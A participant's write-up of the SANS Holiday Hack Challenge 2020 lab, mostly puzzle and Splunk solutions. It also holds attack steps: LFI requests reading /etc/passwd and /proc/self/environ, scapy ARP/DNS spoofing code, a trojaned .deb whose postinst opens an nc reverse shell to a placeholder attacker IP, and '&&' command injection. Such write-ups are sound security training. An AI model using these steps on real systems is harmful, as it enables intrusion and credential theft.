



# Holiday Hack Challenge 2020: Three French Hens

# Objective 1: Uncover Santa's Gift List

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.

**Answer:** "poxmark"

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.

- First stop in the Holiday Hack challenge! I talked to Jingle Ringleford and downloaded the billboard image.
- I used the tool suggested in the hint. Took several attempts at twirling and untwirling before I could see what was on the list for him.
- Once I saw what was on the list, I read it as "poxmark", but had no idea if this was a thing, so I googled it. YUP! A very interesting thing at that. :)

# Objective 2: Investigate S3 Bucket

When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.

**Answer:** "North Pole: The Frostiest Place on Earth"

- Added wrapper3000 to the wordlist
- Found this bucket (wrapper3000) and the file "package"
- Now attempting to decompress the file
- <a href="http://s3.amazonaws.com/wrapper3000/package">http://s3.amazonaws.com/wrapper3000/package</a>
- Step 1: "cat package" (and see that it was base64 encoded)
- Step 2: "base64 -d package > package.zip"
- Step 3: "unzip package.zip"
- Step 4: "tar -xvf package.txt.Z.xz.xxd.tar.bz2"
- Step 5: "xxd -r *.xxd > package.txt.Z.xz"
- Step 6: "xz -d package.txt.Z.xz"
- Step 7: "uncompress package.txt.Z"
- Step 8: "cat package.txt"

# Objective 3: Point-of-Sale Password Recovery

Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?

**Answer:** "santapass"

- Step 1: Download the santa-shop.exe file.
- Step 2: Extract with "engrampa"

- Step 3: Looking at the .asar file located here:  /home/kali/Downloads/app-64/resources
- Step 4: Remember to read hints and look at hint suggesting npm "asar" tool.
- Step 5: Reading throught this article on how to use it. Interesting!
	- Follow directions and unpack source code for santa-shop.exe
	- <a href="https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37">asar article on Medium</a>

- Step 6: Review unpacked source code and then "cat README.md"
	- "cat README.md" ---> "Remember, if you need to change Santa's passwords, it's at the top of main.js!"

~~~
main.js
// Modules to control application life and create native browser window
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('path');

const SANTA_PASSWORD = 'santapass';
~~~

# Objective 4: Operate the Santavator

Talk to Pepper Minstix in the entryway to get some hints about the Santavator.

Got some help from my kid on this one. :) 

# Objective 5: Open HID Lock

Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips.

- Step 1: Get this RFID: 2006e22ee1 (from the ? room)
- Step 2: Sim HID tag: "lf hid sim -r 2006e22ee1" 
- Step 3: Realize that tag ID doesn't do anything.
- Step 4: Steal Shinny Upatree's ID, using "search lf" when standing next to him.
- Step 5: Simulate the ID when you get to Santa's secret door in the workshop.
        - "lf hid sim -r 2006e22f13" 
	- Needed to wait seconds. I was being boneheaded and trying the door before the 10 seconds was up.
- Step 6: Go through Santa's secret office and BECOME SANTA! WHAT ON EARTH!

# Objective 6: Splunk Challenge

Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?

**Answer:** "The Lollipop Guild"

Make sure you are "Santa" when you attempt this objective.

## Question 1

How many distinct MITRE ATT&CK techniques did Alice emulate?

- Step 1: Visit the "Alice Bluebird" chat. Notice this search string:
	" | tstats count where index=* by index "
- Step 2: Use this search string in the "Search" page.
- Step 3: Then simply set the search to "index=attack" (switch to verbose mode)
- Step 4: Find the count for the field called "Test Number"
- Answer: 13

This was the recommended search
~~~
| tstats count where index=* by index 
| search index=T*-win OR T*-main
| rex field=index "(?<technique>t\d+)[\.\-].0*" 
| stats dc(technique)
~~~

## Question 2

What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)

- Step 1: Read response from "Alice Bluebird"
- Step 2: Use this search again: 
~~~
| tstats count where index=* by index
~~~
- Step 3: Notice the two indexes that start with 1059.003
- Answers: 
	- t1059.003-main
	- t1059.003-win

## Question 3

One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?    
- Step 1: Notice that this is t1082
- Step 2: Try this is the search "index=t1082-win"
- Step 3: Go here: https://github.com/redcanaryco/atomic-red-team/search?p=2&q=system+information
- Step 4: Find the answer on this page: https://github.com/redcanaryco/atomic-red-team/blob/8eb52117b748d378325f7719554a896e37bccec7/atomics/T1082/T1082.md
- Answer: "HKEY.LOCAL.MACHINE.SOFTWARE.Microsoft.Cryptography"

## Question 4

According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)

- Step 1: Search "index=attack"
- Step 2: Sort "execution time" desc.
- Step 3: Find first instance of OSTAP
- Answer: "2020-11-30T17:44:15Z" (OSTAP Worming Activity)

## Question 5

One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?

- Step 1: Look up the events in the "index=attack" list. 
- Step 2: Notice the test called "using device audio capture commandlet"
- Step 3: Notice the local execution time (2020-11-30T19:25:14) 
- Step 4: Go back and search with "index=* EventID=1"
- Step 5: *Find the time in the range in the Timeline.
- Step 6: Find the event that matches. 
	- (powershell command with the commandlet in it) (row 30)
- Answer: 3648 (ProcessId)

## Question 6

Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?

- Step 1: Use this filter 'index=* file_name="*.bat"'
- Step 2: Make note of all the bat files.
- Step 3: Review a sample of them in the Atomic Red Team repo.
- Step 4: Find one that is multiline effecting registry values.
- Step 5: Discover that this is discovery.bat
- Answer: "quser"

## Question 7

According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?

- Step 1: Use this filter 'index=* sourcetype=bro*"
- Step 2: See values for certificate.serial
- Step 3: Pick the most heavily used serial since this is a domain controller.
- Answer: 55FCEEBB21270D9249E86F4B9DC7AA60

## Challenge Question

- Step 1: Google "RFC 7465" to see what Alice talking about.
- Step 2: Looks like RC4 encryption.
- Step 3: Go to CyberChef and see what I need. A Passphrase.
- Step 4: Alice says I need to watch Splunk talk.
	- Passphrase is "Stay Frosty"

# Objective 7: Solve the Sleight's CAN-D-BUS Problem

Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.

- Step 1: Filter out all the zero values currently running.
	- Example 244#000000000000 	

- Step 2: Notice what some of the controls do once all the zeros are filtered.
~~~
	START     -> 02A#00FF00
	STOP      -> 02A#0000FF
	LOCK      -> 19B#000000000000
	UNLOCK    -> 19B#00000F000000
	STEERINGR -> 019#00000001
	STEERINGL -> 019#FFFFFFFF
	BRAKE     -> 080#000001
	ACCEL	  -> 244#

	JUNK? --> 080#FFFFFA
	JUNK? --> 19B#0000000F2057
~~~
- Step 3: Notice the some junky values that don't make sense.
	- Why are there negative values for brakes??
	- Why is there a lock/unlock value that presents a third state??
- Step 4: Use these filters

It works!

# Objective 8: Broken Tag Generator

Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

**Answer:** "JackFrostWasHere"

- Step 1: Get an error by doing and upload of an unsupported file:
~~~
Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201217-1-d0s4xy.txt
~~~

- Step 2: Check for file inclusion vulns

- Step 3: Try a large image from holidayhack
~~~
ERROR
413 Request Entity Too Large
nginx/1.19.5
~~~

- Step 4: This is interesting in the /js/app.js file.
	- Looks like **"/image?id="** might be succeptible to LFI.

~~~
        success: function (data) {
          $('.uploadForm')[0].reset();
          $('[for=file-1] span').text('Select file(s)');
            setTimeout(() => {
              data.forEach(id => {
                var img = $('');
                img.attr('src', `/image?id=${id}`);
                img.on('load', () => {
                  const imgElement = img[0];
                  var imgInstance = new fabric.Image(imgElement, {
                    left: (canvas.width - imgElement.width) / 2,
                    top: (canvas.height - imgElement.height) / 2,
                    angle: 0,
                    opacity: 1
~~~ 

- Step 5: Didn't think I was getting anything with this, but I just needed to view the rreponse in Burp.	
~~~
https://tag-generator.kringlecastle.com/image?id=../etc/passwd

Response:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

~~~
 
- Step 6: Notice that "app" user
- Step 7: Try this path again, but with LFI.
~~~
https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb
~~~
- Step 8: Review the code from app.rb.
- Step 9: Google for how to get environment variables through LFI. Then try this request...in Burp:
~~~
GET /image?id=../proc/self/environ HTTP/1.1
Host: tag-generator.kringlecastle.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

Here's the result!

# Objective 9: ARP Shenanigans

Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?

**Answer:** "Tanta Kringle"

- Step 1: Make sure you can reach 10.6.6.35 --> "ping 10.6.6.35"
- Step 2: Do an "ls" of the home folder.
- Step 3: Read "HELP.md"

- Step 4: Run "tshark -i eth0"
- Step 5: Notice that .35 is asking about .53
- Step 6: Create ARP response: 

~~~
        ether_resp = Ether(dst=packet.hwsrc, type=0x806, src=macaddr)

        arp_response = ARP(pdst=packet.psrc)
        arp_response.op = 2 #change this to be a response
        arp_response.plen = packet.plen
        arp_response.hwlen = packet.hwlen
        arp_response.ptype = packet.ptype
        arp_response.hwtype = packet.hwtype

        arp_response.hwsrc = macaddr #provide my mac address
        arp_response.psrc = "10.6.6.53" #provide IP sought by 10.6.6.35
        arp_response.hwdst = packet.hwsrc
	arp_responst.pdst = packet.psrc

        response = ether_resp/arp_response

        sendp(response, iface="eth0")
~~~

- Step 7: Create DNS response:

~~~

    eth = Ether(src=packet.dst, dst=packet.src)      # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst) # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)     # need to replace ports
    dns = DNS(  
       id=packet[DNS].id,
       qd=packet[DNS].qd,
       qr=1,
       aa=1,
       an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
    )
~~~

- Step 8: Note file being requested with http request.
	- "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1"

- Step 9: Create that file and make it call back to listener on local machine.
- Step 10: Determine payload to use. Simple nc reverse shell should work.

~~~
nc -e /bin/sh ATTACKING-IP 4444
~~~

- Step 11: Build the deb package with the above payload in the "postinst"
	- "dpkg -x [debfile] work"
	- "mkdir work/DEBIAN"
 	- "cd DEBIAN"

- "vim control" (control file for the package)

~~~
Package: [Package Name]
Version: [Package Version]
Section: Network Tools
Priority: optional
Architecture: amd64
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: Network utility for hacking all the things.
~~~

- "vim postinst" (postinst file for the package)

~~~
#!/bin/sh

nc -e /bin/sh [attacking ip] 4444
~~~

	- "chmod 755 postinst"
	- "dpkg-deb --build /home/guest/debs/work"
	- "mv work.deb [package name].deb"
	- "python3 -m http.server 80"

- Step 11: Start listener with "nc -nvlp 4444" 
- Step 12: Get ARP and DNS responses going
- Step 13: Navigate to file contents in question:
	- "cat *.txt | grep recused"

# Objective 10: Defeat Fingerprint Sensor

Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.

This required going into developer mode in Google Chrome. I saw one spot where the 'besanta' token was a condition required for being able to go to floor three and deleted it. After doing this, you can save "app.js" and reload the elevator code in your browser. 

# Objective 11a: Naughty/Nice List with Blockchain Investigation Part 1 

Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. (Enter just the 16-character hex value of the nonce)

**Answer:** 57066318f32f729d

- Step 1: Set up docker instance with tools needed to solve this objective.
- Step 2: Read through and understand naughty_nice.py
- Step 3: Load up blockchain.dat using this file and dump the nonces.
- Step 4: The nonces come out at 64 bit integers. We need to either split these or figure out how to use them as is...with the right tool. Currently working with blockchain.py file that I created. Also reading more of naughty_nice.py 

So apparently we need to do the following:
- Get 312 64bit values.
- Split them in half, making sure to line up on Endianness.
- Feed them into the predictor and then put back together.

**blockchain.py**

~~~
    #we only need 312 nonces

for var in list(range(312)):
    #start on block 1236
    var = var + 1236
    #print(c2.blocks[var].block_data)
    #print(c2.blocks[var].nonce)
    currentNonce = c2.blocks[var].nonce
    hexNonce = (str('%016.016x' % (currentNonce)).encode('utf-8'))
   

    #this is actually first (though it is the second half of the nonce)
    hexNonce_32a = (currentNonce  >> 32 ) & 0xffffffff

    #this is second (though it is the first half of the nonce)
    hexNonce_32b = currentNonce & 0xffffffff

    #this is how we feed the 32 nonce parts into the predictor
    print(hexNonce_32b)
    print(hexNonce_32a)

    # but when we put them back together for 64bit, we need to flip them back with 32a first.
    #32a prediction value was '0x57066318'
    #32b prediction value was '0xf32f729d'

    #print(hexNonce)
    #print(hex(hexNonce_32a))
    
    #print(hex(hexNonce_32b))
    #print(c2.blocks[var].index)
    #c2.blocks[var].dump_doc(1)
~~~

Here's the final script that retrieves he predicted values:

**blockchain-get-32.sh**

~~~

 #blockchain.py is the script shown above

 #gets the last 624 of the split up values
 ./blockchain.py | tail -n 624 > blockchain32.out

 #checks he file to make sure there is 624
 wc blockchain32.out

 #feeds the split 32 values into the predictor
 #then gets the last nonce pair of the four total that came back to get us to 130000
 cat blockchain32.out | mt19937predict | head -8 | tail -n 2

 #feed the resulting pair in reverse order back to the objective.

 echo "All Done!"

~~~

# Objective 11b: Naughty/Nice List with Blockchain Investigation Part 2

The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you've recreated the original block, what is the SHA256 of that block?

- Step 1: Create a script to show MD5 and SHA256 hashes on changes to the blockchain.dat file.

~~~

files = ['blockchain.dat','bc1.dat']
for file in files:

    c2 = Chain(load=True, filename=file)
    
    #jack's block sequence is 1010
    blocksequence = 1010

    #this dumps the resulting PDF
    c2.blocks[blocksequence].dump_doc(2)
    
    # this is for studying a single block
    c2.save_a_block(blocksequence,filename=None)    
    
    block_data = c2.blocks[blocksequence].block_data
    index = c2.blocks[blocksequence].index
    nonce = c2.blocks[blocksequence].nonce
    sign = c2.blocks[blocksequence].sign
    score = c2.blocks[blocksequence].score
    previous_hash =  c2.blocks[blocksequence].previous_hash
    current_hash  = c2.blocks[blocksequence].hash
    
    #This is for tracking my comparison hashes
    full_hash = c2.blocks[blocksequence].full_hash()
    full_hash_sha256 = c2.blocks[blocksequence].full_hash_sha256()

~~~

- Step 2: Identify bytes changed by Jack Frost:
	- He changed his naughty/nice from 0 to 1, so we changed it back to 0.
	- He changed the visible document to '2' so we changed it back to '3'

- Step 3: Determine which bytes we could change and still not alter the MD5 hash. This required doing a fair amount of reading and getting nudges from folks on Discord! These bytes had to correspond with JF's desired changes. And they needed to increment accordingly. If we bumped him from 1 to 0 we had to make a change of this increment to a collusion byte. See screenshot below. 

- Step: Compare original to edited bc1.dat to original blockchain.dat.

~~~

blockchain.dat ##################################################
Document dumped as: 129459.pdf
 
 
index:            129459
nonce:            12197012604862268660
sign:             1
score:            4294967295
previous hash:    4a91947439046c2dbaa96db38e924665
hash:             347979fece8d403e06f89f8633b5231a
full hash:        b10b4a6bd373b61f32f4fd3a0cdfbf84
full hash sha256: 58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f
 

bc1.dat ##################################################
Document dumped as: 129459.pdf
 
 
index:            129459
nonce:            12197012604862268660
sign:             0
score:            4294967295
previous hash:    4a91947439046c2dbaa96db38e924665
hash:             347979fece8d403e06f89f8633b5231a
full hash:        b10b4a6bd373b61f32f4fd3a0cdfbf84
full hash sha256: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb

~~~

- Apparently Jack was able to change just 4 bytes in the block to completely change everything about it. It's like some sort of evil game to him.
	- Need to read this: https://speakerdeck.com/ange/colltris

- Step 1: Figure out how MD5 hash is created and replicate that.
- Step 2: Create SHA256 hash with this methodology.
- Step 3: Find the altered block.
- Step 4: After doing a dump of all the first docs in each block, I see there is a suspicous binary file associated with block **129459** and this is the nice score: "Score: ffffffff (4294967295)"
- Step 5: Also notice that the associated pdf is loaded up with praise for Jack Frost. 
- Step 6: Now I need to see if I can get a SHA256 hash of this block so that as I alter it and if I get the block back to its original state I'll have the hash.
	- Looks like I need to figure out how to put the pieces together to generate a SHA256 hash.
	- I can replicate the MD5 hash but not the SHA256. Am I missing something?
- Step 7: Was finally able to replicate the SHA256 hash of the altered block by doing the following:

~~~
#This is the sequence in the chain for Jack's altered block.
blocksequence = 1010

hash_obj_sha256 = SHA256.new()
hash_obj_sha256.update(c2.blocks[blocksequence].block_data_signed())
print(hash_obj_sha256.hexdigest())
~~~

- Step 8: Now I need to research how the block could have been altered.
- Step 9: I can see there is another document that becomes visible when making changes to the block.
- Step 10: Now I need need to figure out how to change just the right bytes.

	

# Challenges

# Snowball Fight (Tangle Coalbox)

- Step 1: Watch Tom Liston's talk.
- Step 2: Clone Liston's  mt19937 GitHub repository. Review/run the code.
- Step 3: Clone this repo: git@github.com:kmyk/mersenne-twister-predictor.git
- Step 4: Open Chrome and go into developer mode.
- Step 5: Notice the list of 624 seeds with a note at the bottom about the next seed being 'perfect'
- Step 6: Put this list of seeds into a file and run mersenne-twister-predictor on it.
- Step 7: Take the first seed value generated/predicted and put it in 'easy mode'
	- At the same time start up the 'Impossible' level in the Holiday Hack terminal.
- Step 8: Transfer only 'hits' from easy mode over to impossible mode in terminal. Since they have the same seed then
  the 'hit's will be the same. This will allow you to make sure every shot in the impossible mode is successful.

# Scapy Prepper (Alabaster Snowball)

## COMPLETED TASK #1:
Welcome to the "Present Packet Prepper" interface! The North Pole could use your help preparing present packets for shipment.
Start by running the task.submit() function passing in a string argument of 'start'.
Type task.help() for help on this question.
All you should have to do is type task.submit('start') to move past this question and get started with scapy packet manipulation.
Correct! adding a () to a function or class will execute it. Ex - FunctionExecuted()

>task.submit('start')

## COMPLETED TASK #2:
Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.
For example, task.submit(sendp) would submit the sendp scapy class used to send packets at layer 2 of the OSI model.
Scapy classes can be found at ( https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html )
Correct! The "send" scapy class will send a crafted scapy packet out of a network interface.

>task.submit(send)

## COMPLETED TASK #3:
Submit the class object of the scapy module that sniffs network packets and returns those packets in a list.
Look for "Sniff packets and return a list of packets." at the link ( https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html )
Correct! the "sniff" scapy class will sniff network traffic and return these packets in a list.

>task.submit(sniff)

## COMPLETED TASK #4:
Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named "pkt":
1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))
Look for "Send packets at layer 3 and return only the first answer" at the link ( https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html )
Correct! sr1 will send a packet, then immediately sniff for a response packet.

>task.submit('1')

## COMPLETED TASK #5:
Submit the class object of the scapy module that can read pcap or pcapng files and return a list of packets.
Look for "Read a pcap or pcapng file and return a packet list" at the link ( https://scapy.readthedocs.io/en/latest/api/scapy.utils.html )
Correct! the "rdpcap" scapy class can read pcap files.

>task.submit(rdpcap)

## COMPLETED TASK #6:
The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices below that correctly prints a summary of UDP_PACKETS:
1. UDP_PACKETS.print()
2. UDP_PACKETS.show()
3. UDP_PACKETS.list()
Try each option and see which one works. Submit the NUMBER only of the correct choice.
Correct! .show() can be used on lists of packets AND on an individual packet.

>task.submit('2')

## COMPLETED TASK #7:
Submit only the first packet found in UDP_PACKETS.
You can specify an item from a list using "list_var_name[num]" where "num" is the item number you want starting at 0.

Correct! Scapy packet lists work just like regular python lists so packets can be accessed by their position in the list starting at offset 0.

>task.submit(UDP_PACKETS[0])

## COMPLETED TASK #8:
Submit only the entire TCP layer of the second packet in TCP_PACKETS.
If you had a packet stored in a variable named pkt, you could access its IP layer using "pkt[IP]"
Correct! Most of the major fields like Ether, IP, TCP, UDP, ICMP, DNS, DNSQR, DNSRR, Raw, etc... can be accessed this way. Ex - pkt[IP][TCP]

>pkt=TCP_PACKETS[1]

>task.submit(pkt[TCP])

## COMPLETED TASK #9:
Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet
pkt[IP].dst = "10.10.10.10" would changed the destination IP address of a packet in a variable named "pkt". Use this method to modify the src IP and submit the changed packet.
Correct! You can change ALL scapy packet attributes using this method.

>pkt=UDP_PACKETS[0]

>pkt[IP].src='127.0.0.1'

>task.submit(pkt)

## COMPLETED TASK #10:
Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet list TCP_PACKETS.
You can access each packets Raw payload using TCP_PACKETS[0][Raw].load only incrementing 0 each packet. (if that particular packet has a payload)
Correct! Here is some really nice list comprehension that will grab all the raw payloads from tcp packets:
[pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]

>TCP_PACKETS[6][Raw].load

>task.submit('echo.r.n') 

## COMPLETED TASK #11:
The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list.
You could get the ICMP id value of the 3rd packet using ICMP_PACKETS[2][ICMP].id .
Correct! You can access the ICMP chksum value from the second packet using ICMP_PACKETS[1][ICMP].chksum .

>task.submit(ICMP_PACKETS[1][ICMP].chksum)

## COMPLETED TASK #12:
Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named "pkt"
1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")
Here is a good link on creating packets with scapy ( https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html )
Correct! Once you assign the packet to a variable named "pkt" you can then use that variable to send or manipulate your created packet.

>task.submit('3')

## COMPLETED TASK #13:
Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all other packet attributes can be unspecified)
Here is a good link on creating packets with scapy ( https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html )
Correct! Your UDP packet creation should look something like this:

> pkt = IP(dst="127.127.127.127")/UDP(dport=5000)

> task.submit(pkt)

## COMPLETED TASK #14:
Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query with a qname of "elveslove.santa". (all other packet attributes can be unspecified)
You can reference UDP_PACKETS[0] for a similar packet but dont use this exact packet but create a new one. You can also reference this link ( https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html )
Correct! Your UDP packet creation should look something like this:

>pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))

>task.submit(pkt)

## COMPLETED TASK #15:
The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.
The three fields in ARP_PACKETS[1][ARP] that are incorrect are op, hwsrc, and hwdst. A sample ARP pcap can be referenced at https://www.cloudshark.org/captures/e4d6ea732135. You can run the "reset_arp()" function to reset the ARP packets back to their original form.
Great, you prepared all the present packets!

>pkt = ARP_PACKETS[1][ARP]

>pkt.op=2

>pkt.hwsrc='00:13:46:0b:22:ba'

>pkt.hwdst='00:16:ce:6e:8b:24'

>task.submit(ARP_PACKETS)

# Kringle Kiosk (Shinny Upatree)

~~~
Welcome to our castle, we're so glad to have you with us!
Come and browse the kiosk; though our app's a bit suspicious.
Poke around, try running bash, please try to come discover,
Need our devs who made our app pull/patch to help recover?

Escape the menu by launching /bin/bash
~~~

- Determined through errors that the application was "cowsay".
- Used command injection with "&&" to add another command to the end of the file which was "bin/bash"

# Unescape Tmux (Pepper Minstix)

~~~
Can you help me?

I was playing with my birdie (she's a Green Cheek!) in something called tmux,
then I did something and it disappeared!

Can you help me find her? We were so attached!!
~~~

- Used "tmux a" to attach the available tmux session

# Linux Primer (Sugarplum Mary)

- Entered "yes" to begin
- Step 1: "ls"
- Step 2: "cat munchkin*"
- Step 3: "rm mun*"
- Step 4: "pwd"
- Step 5: "ls -al"
- Step 6: "history | grep mun"
- Step 7: "env"
- Step 8: "cd workshop"
- Step 9: 
- Step 10: "chmod +x ./lollipop_engine"
- Step 11: "mv /home/elf/workshop/electrical/blown_fuse0 /home/elf/workshop/electrical/fuse0"
- Step 12: "ln -s fuse0 fuse1"
- Step 13: "cp fuse1 fuse2"
- Step 14: "echo "MUNCHKIN_REPELLENT" >> fuse2"
- Step 15: "git status"
- Step 16: "find /opt/munchkin_den -user munchkin"
- Step 17: "find /opt/munchkin_den -size +108k -size -110k"
- Step 18: "ps aux"
- Step 19: "netstat --listen"
- Step 20: "curl localhost:54321"
- Step 21: "pkill 14516_munchkin"

# The Elf C0de (Ribb Bonbowford)

Mischevious munchkins have nabbed all the North Pole's lollipops intended for good children all over the world. Use your JavaScript skills to retrieve the nabbed lollipops from all the entrances of KringleCon.

# Redis Bug Hunt (Holly Evergreen)

~~~

We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you somehow use the
maintenance page to view the source code for the index page?
~~~

- Step 1: "curl http://localhost/maintenance.php"
- Step 2: Notice this error output

~~~
	ERROR: 'cmd' argument required (use commas to separate commands); eg:
	curl http://localhost/maintenance.php?cmd=help
